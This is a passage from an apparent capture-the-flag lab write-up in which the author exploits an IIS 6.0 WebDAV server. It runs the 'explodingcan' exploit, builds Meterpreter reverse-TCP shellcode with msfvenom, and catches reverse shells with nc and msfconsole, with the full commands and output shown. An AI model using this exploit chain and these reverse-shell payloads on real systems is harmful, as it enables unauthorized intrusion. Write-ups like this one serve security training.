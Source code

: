 

Now I can run the exploit:



    root@kali# python explodingcan.py http://10.10.10.14 shellcode_rev_10.10.14.47_443
    [*] Using URL: http://10.10.10.14
    [*] Server found: Microsoft-IIS/6.0
    [*] Found IIS path size: 18
    [*] Default IIS path: C:\Inetpub\wwwroot
    [*] WebDAV request: OK
    [*] Payload len: 2190
    [*] Sending payload...



I get a connection at `nc`, but it immediately dies:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.14.
    Ncat: Connection from 10.10.10.14:1037.



I did some experimenting, and the Meterpreter payload works fine:



    root@kali# msfvenom -p windows/meterpreter/reverse_tcp -f raw -e x86/alpha_mixed LHOST=10.10.14.47 LPORT=443 > shellcode_msf_10.10.14.47_443
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/alpha_mixed
    x86/alpha_mixed succeeded with size 744 (iteration=0)
    x86/alpha_mixed chosen with final size 744
    Payload size: 744 bytes    



Running it now results in:



    msf5 exploit(multi/handler) > run
    [*] Started reverse TCP handler on 10.10.14.47:443 
    [*] Sending stage (176195 bytes) to 10.10.10.14
    [*] Meterpreter session 1 opened (10.10.14.47:443 -> 10.10.10.14:1034) at 2020-05-27 16:54:40 -0400

    meterpreter > getuid
    Server username: NT AUTHORITY\NETWORK SERVICE



But even switching to a staged shell and catching it in `msfconsole`
resulted in the same behavior, death instantly:

